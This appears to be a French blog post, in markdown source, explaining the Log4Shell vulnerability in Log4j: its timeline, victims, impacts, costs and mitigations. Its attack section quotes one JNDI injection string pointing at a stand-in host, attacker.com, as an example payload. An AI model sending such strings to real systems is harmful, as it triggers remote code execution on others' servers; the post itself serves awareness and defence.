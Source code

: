 ```yaml
---
title: 'Log4Shell (2021) - La vulnérabilité qui a secoué Internet'
description: 'Analyse de CVE-2021-44228 Log4Shell : vulnérabilité critique dans Log4j affectant des millions de systèmes Java'
pubDate: 'Jul 2 2025'
heroImage: 'https://fractionalciso.com/wp-content/uploads/2021/12/Log4Shell-Logo-Fractional-CISO-scaled.jpg'
---
```


## Quelle est la vulnérabilité exploitée ?

Log4Shell exploite la vulnérabilité CVE-2021-44228 dans la bibliothèque de logging Java Log4j . Cette faille permet l'exécution de code à distance via l'injection JNDI (Java Naming and Directory Interface), notée 10/10 sur l'échelle CVSS .

## Comment l'attaque s'est-elle déroulée ?

L'exploitation de Log4Shell est remarquablement simple :

1. **Découverte** : Signalée par Chen Zhaojun d'Alibaba Cloud le 24 novembre 2021 
2. **Divulgation publique** : 9 décembre 2021, provoquant une panique mondiale 
3. **Exploitation** : Injection d'une chaîne malveillante comme ${jndi:ldap://attacker.com/malicious} 
4. **Exécution** : Log4j traite automatiquement la chaîne et exécute le code distant 
5. **Propagation massive** : Exploitation automatisée en quelques heures

## Qui a été touché ?

- Millions de systèmes Java : Applications web, serveurs d'entreprise 
- Cloud providers : Amazon, Google et Microsoft cloud data was affected by Log4Shell 
- **Grandes entreprises** : Tesla, Apple, Twitter, Steam
- **Gouvernements** : Agences fédérales américaines
- **Infrastructure critique** : Systèmes industriels et bancaires
- Frameworks populaires : Apache Struts, Kafka, Druid, Flink 

## Quels ont été les impacts ?

- **Exposition de données** : Accès non autorisé à des systèmes sensibles
- **Crypto-mining** : Installation de malwares de minage 
- **Backdoors** : Accès persistant pour des attaques futures
- Attaques de ransomware : Exploitation pour déployer des ransomwares 
- **Espionnage** : Exfiltration de données par des acteurs étatiques 

## Quel coût estimé ?

- **Petite entreprise** : 100 000 € à 500 000 € (audit, patchs, tests)
- **Moyenne entreprise** : 1 000 000 € à 5 000 000 € (systèmes multiples, expertise)
- **Grande entreprise** : 10 000 000 € à 100 000 000 € (infrastructure globale, conformité)

## Comment s'en protéger ?

1. **Mise à jour urgente** : Upgrader vers Log4j 2.17.0 ou version supérieure 
2. **Inventaire des dépendances** : Scanner toutes les applications pour détecter Log4j
3. **Mitigation temporaire** : Désactiver les lookups JNDI (log4j2.formatMsgNoLookups="true") 
4. **Filtrage WAF** : Bloquer les patterns JNDI malveillants
5. **Surveillance logs** : Détecter les tentatives d'exploitation
6. **Tests de vulnérabilité** : Vérifier régulièrement l'absence de la faille

## Pourquoi est-ce difficile à éviter ?

- Ubiquité de Log4j : Présent dans des milliers d'applications 
- **Dépendances transitives** : Log4j souvent inclus indirectement 
- **Découverte difficile** : Inventaire complexe des bibliothèques
- **Applications tierces** : Dépendance des fournisseurs pour les correctifs
- **Systèmes embarqués** : Nombreux dispositifs IoT non patchables
- Exploitation triviale : Exploitation possible via simple injection de chaîne 

## Dans le contexte de votre entreprise, que feriez-vous ?

1. **Audit d'urgence** : Scan immédiat de toute l'infrastructure pour détecter Log4j
2. **Priorisation des patchs** : Correction immédiate des systèmes critiques exposés
3. **Isolation temporaire** : Déconnexion des systèmes vulnérables si nécessaire
4. **Plan de communication** : Information des parties prenantes et clients
5. **Surveillance renforcée** : Monitoring intensif pour détecter les compromissions
6. **Processus d'inventaire** : Mise en place d'un système de gestion des dépendances
7. **Formation équipes** : Sensibilisation sur la gestion des vulnérabilités zero-day

## Sources

- [Log4Shell - Wikipedia](https://en.wikipedia.org/wiki/Log4Shell)
- [Log4j2 Vulnerability "Log4Shell" (CVE-2021-44228) | CrowdStrike](https://www.crowdstrike.com/en-us/blog/log4j2-vulnerability-analysis-and-mitigation-recommendations/)
- [Apache Log4j Vulnerability Guidance | CISA](https://www.cisa.gov/news-events/news/apache-log4j-vulnerability-guidance)
- [Log4Shell Zero-Day Vulnerability - CVE-2021-44228 | JFrog](https://jfrog.com/blog/log4shell-0-day-vulnerability-all-you-need-to-know/)
- [Guide to Log4Shell (CVE-2021-44228) | Rapid7](https://www.rapid7.com/blog/post/2021/12/15/the-everypersons-guide-to-log4shell-cve-2021-44228/)
- [Exploiting, Mitigating, and Detecting CVE-2021-44228 | Sysdig](https://sysdig.com/blog/exploit-detect-mitigate-log4j-cve/)
- [Another Apache Log4j Vulnerability | Palo Alto](https://unit42.paloaltonetworks.com/apache-log4j-vulnerability-cve-2021-44228/)
- [Log4Shell: The Log4j Vulnerability Emergency | UpGuard](https://www.upguard.com/blog/apache-log4j-vulnerability)